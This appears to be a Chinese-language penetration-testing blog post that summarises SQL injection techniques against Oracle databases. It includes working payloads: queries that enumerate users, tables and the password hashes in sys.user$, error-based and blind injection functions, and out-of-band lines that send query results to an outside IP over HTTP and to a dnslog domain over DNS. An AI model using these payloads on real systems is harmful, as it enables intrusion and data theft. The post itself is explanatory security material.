 +++
title = "SQL注入小结(Oracle)"
topics = ["Pentest"]
tags = ["injection","oracle"]
description = "前几天渗透测试时遇到了Oracle的注入，这里简单总结一下Oracle中的SQL注入常见的利用手法：联合查询注入、报错型注入、布尔型注入、无返回值的盲注"
date = "2019-01-04T20:23:35+08:00"
draft = false
+++

### 0x00 判断数据库类型
* Oracle有一些自带的表：dual、user_tables
    * ```id=45 and (select count(*) from user_tables)>0--```
    * ```id=45 and (select count(*) from dual)>0--```

* 利用自带的一些函数：譬如utl_http.request 这些
* 利用Oracle的字符连接符：CHR(97)||CHR(110)||CHR(100)||CHR(32)||CHR(49)||CHR(61)||CHR(49)

### 0x01 基本信息获取
* 查看sid
```
select instance_name from v$instance;
```

* 查看数据库版本：
```
select banner from v$version where rownum=1;
select banner from sys.v_$version where rownum=1;
```

* 查看用户：
```
select user from dual; --当前用户
select username from user_users; --当前用户
select username from all_users; --查看所有用户
select username from dba_users; --查看所有用户(需要有权限)
```

* 查看当前用户角色：
```
select role from session_roles;
```

* 查看数据库用户名和密码：
```
select name, password, astatus from sys.user$; --需要权限
```

* 通过注入获取数据
    ```
    --列database
    select global_name from global_name;
    select sys.database_name from dual;
    select name from v$database;
    select instance_name from v$instance;
    --列owner
    select distinct owner from all_tables;
    --列owner的tables
    select table_name from all_tables where owner='UTEST';
    --列tables的columns
    select column_name from all_tab_columns where table_name='TUSER';
    select column_name from all_tab_cols where table_name='TUSER';


    --列tablespace
    select tablespace_name from user_tablespaces;
    --列tablespace的tables
    select table_name from user_tables where tablespace_name='DB_TEST_DATA';
    --列tables的columns
    select column_name from user_tab_columns where table_name='TUSER';
    ```

### 0x02 UNION query注入

* 存在注入
![70](/img/post/20190103-162239.png)

* 判断列数
![40](/img/post/20190103-162620.png)
![80](/img/post/20190103-162720.png)

* 尝试union select
![60](/img/post/20190103-163005.png)
依次判断字段类型(下图判断出第二个字段是字符型)
![80](/img/post/20190103-163324.png)
![50](/img/post/20190103-163228.png)

* 得到表名  
得到表的个数
![75](/img/post/20190103-164019.png)
得到第一个表的表名
![75](/img/post/20190103-163610.png)
得到第二个表的表名
![75](/img/post/20190103-164519.png)

* 得到第一个表的字段
![80](/img/post/20190103-165302.png)

* 得到第一个表的数据
![80](/img/post/20190103-170336.png)

### 0x03 error-based注入
* ctxsys.drithsx.sn
![60](/img/post/20190104-160714.png)

* dbms_xdb_version.checkin
![80](/img/post/20190104-161325.png)

* dbms_xdb_version.makeversioned
![85](/img/post/20190104-161521.png)

* dbms_xdb_version.uncheckout
![85](/img/post/20190104-161727.png)

* dbms_utility.sqlid_to_sqlhash
![85](/img/post/20190104-161838.png)

* utl_inaddr.get_host_name(在11g以后需要是超级用户或已授予网络访问权限的用户才能使用)
![](/img/post/20190104-203238.png)

### 0x04 boolean-based blind注入
* decode

decode(条件，值1，值1结果，值2，值2结果，。。。值n，值n结果，默认值)

条件和那个值相等就返回那个值的结果
![65](/img/post/20190104-165737.png)
![65](/img/post/20190104-165817.png)

* instr

instr(字符串，子串)

从一个字符串中查找指定子串的位置，这里一直将位置置为1
![55](/img/post/20190104-201134.png)
![55](/img/post/20190104-201157.png)
![55](/img/post/20190104-201216.png)

### 0x05 无回显注入
* web服务接收结果
```
select * from utest.msg where id=2 and 1=utl_http.request('http://59.108.35.198:8888/'||(select user from dual));
```

* dns服务接收结果
```
select * from utest.msg where id=2 and (select utl_inaddr.get_host_address((select user from dual)||'.dnslog.wyb0.com') from dual) is not null;
```

<br>
#### Reference(侵删)：
* [https://www.freebuf.com/articles/web/5411.html](https://www.freebuf.com/articles/web/5411.html?_blank)
* [https://www.iswin.org/2015/06/13/hack-oracle/](https://www.iswin.org/2015/06/13/hack-oracle/?_blank)
* [https://www.freebuf.com/column/146464.html](https://www.freebuf.com/column/146464.html?_blank)

